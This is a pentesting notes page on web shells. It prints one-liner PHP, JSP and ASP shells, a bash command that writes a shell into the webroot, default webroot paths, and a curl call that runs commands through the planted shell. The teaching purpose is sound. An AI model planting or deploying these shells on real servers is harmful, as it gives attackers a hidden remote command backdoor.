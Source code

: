```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - web shells
---
```


# Web shells

A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.

## Some basic web shells

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](whitewinterwolf-webshell.md)

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```


## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 


## Tools

[About webshells](https://github.com/BlackArch/webshells).

[Laudanum](laudanum.md)

[nishang](nishang.md)
